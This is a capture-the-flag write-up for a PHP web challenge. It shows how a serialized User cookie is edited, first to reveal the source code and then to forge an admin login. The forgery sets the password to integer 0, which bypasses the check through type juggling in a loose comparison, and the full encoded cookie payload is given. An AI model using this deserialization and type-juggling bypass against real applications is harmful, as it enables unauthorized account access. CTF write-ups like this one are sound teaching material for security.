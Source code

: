 # Usual or Unusual
**Category: Web**
> "A company developed an authentication system and gave it to us for testing, I told the developers the way they authenticate a user is dangerous and unusual,
But they disagreed and told me if i find the secret flag, They would reconsider. Help me find it."


This challenge site was a login page. We get assigned a cookie upon visiting:

`Set-Cookie: cookie=O%3A4%3A%22User%22%3A5%3A%7Bs%3A8%3A%22%00User%00id%22%3Bs%3A30%3A%22890143755983288300723865605783%22%3Bs%3A14%3A%22%00User%00username%22%3Bs%3A5%3A%22guest%22%3Bs%3A14%3A%22%00User%00password%22%3Bs%3A5%3A%22guest%22%3Bs%3A16%3A%22%00User%00showSource%22%3Bb%3A0%3Bs%3A11%3A%22%00User%00color%22%3Bs%3A7%3A%22%23FFFFFF%22%3B%7D; expires=Sun, 23-May-2021 00:41:53 GMT; Max-Age=2592000; path=/; HttpOnly; SameSite=Strict`

URL decoded and formatted, we can view the serialized data more clearly:
```php
O:4:"User":5: {
    s:8:".User.id";
    s:30:"890143755983288300723865605783";
    s:14:".User.username";
    s:5:"guest";
    s:14:".User.password";
    s:5:"guest";
    s:16:".User.showSource";
    b:0;
    s:11:".User.color";
    s:7:"#FFFFFF";
}
```

`.User.showSource` is interesting, let's modify our cookie to have `.User.showSource` as `1` and see what happens.

Performing the request again with the modified cookie shows the [source](source.php). The interesting snippet of code is here:

```php
...
if(isset($_COOKIE["cookie"])){
    $user = unserialize($_COOKIE["cookie"]);
    if($user->getShowSource()){
        highlight_file(__FILE__);
        die();
    }else{
        $userColor = $user->getColor();
        gmp_random_seed($seed);
        $rand = gmp_random_bits(100);
        $password = $flag . gmp_strval($rand);
        if($user->getUsername() == "admin"){
            if($user->getPassword() == $password){
                $result = $flag;
            }
        }
    }
}
...
```

The `$result` variable later gets printed to the page. This shows us that in order to get the flag, `$user->getShowSource()` must be false, our username must be `admin`, and our password must be equal to a specific randomized value.

Knowing the value of the `$password` variable we compare against ahead of time is not possible, but we can bypass this with Type Juggling. In PHP, comparing a string to `0` returns `true`. Let's build a custom cookie to abuse this feature (note that the password type gets changed to integer):

```php
O:4:"User":5: {
    s:8:".User.id";
    s:30:"890143755983288300723865605783";
    s:14:".User.username";
    s:5:"admin";
    s:14:".User.password";
    i:0;
    s:16:".User.showSource";
    b:0;
    s:11:".User.color";
    s:7:"#FFFFFF";
}
```
Encoded: `cookie=O%3A4%3A%22User%22%3A5%3A%7Bs%3A8%3A%22%00User%00id%22%3Bs%3A30%3A%22890143755983288300723865605783%22%3Bs%3A14%3A%22%00User%00username%22%3Bs%3A5%3A%22admin%22%3Bs%3A14%3A%22%00User%00password%22%3Bi%3A0%3Bs%3A16%3A%22%00User%00showSource%22%3Bb%3A0%3Bs%3A11%3A%22%00User%00color%22%3Bs%3A7%3A%22%23FFFFFF%22%3B%7D`

Sending a request with this cookie returns the flag: `SBCTF{unserialize_k1nd4_SUS_th0}`